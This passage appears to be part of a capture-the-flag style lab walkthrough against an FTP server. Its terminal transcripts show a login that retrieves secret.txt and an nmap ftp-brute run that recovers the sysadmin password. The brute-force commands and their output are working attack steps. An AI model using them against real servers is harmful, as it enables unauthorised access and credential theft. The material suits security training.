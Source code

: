 ```
root@attackdefense:~# ftp
Connected to 192.213.192.3.
220 ProFTPD 1.3.5a Server (AttackDefense-FTP) [::ffff:192.213.192.3]
Name (192.213.192.3:root): auditor
331 Password required for auditor
Password:
230 User auditor logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0              33 Nov 20  2018 secret.txt
226 Transfer complete
ftp> get secret.txt
local: secret.txt remote: secret.txt
200 PORT command successful
150 Opening BINARY mode data connection for secret.txt (33 bytes)
226 Transfer complete
33 bytes received in 0.00 secs (217.7470 kB/s)
ftp> bye
221 Goodbye.
root@attackdefense:~# cat secret.txt 
098f6bcd4621d373cade4e832627b4f6
```

Find the password of user “sysadmin” using nmap script.

[ftp-brute](https://nmap.org/nsedoc/scripts/ftp-brute.html)

```
root@attackdefense:~# echo "sysadmin" > user.lst 
root@attackdefense:~# cat user.lst 
sysadmin
root@attackdefense:~# nmap --script ftp-brute --script-args userdb=/root/user.lst -p 21 192.213.192.3 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-21 03:11 UTC
Nmap scan report for target-1 (192.213.192.3)
Host is up (0.000060s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 24 guesses in 6 seconds, average tps: 4.0
MAC Address: 02:42:C0:D5:C0:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 6.56 seconds
```

Find seven flags hidden on the server.
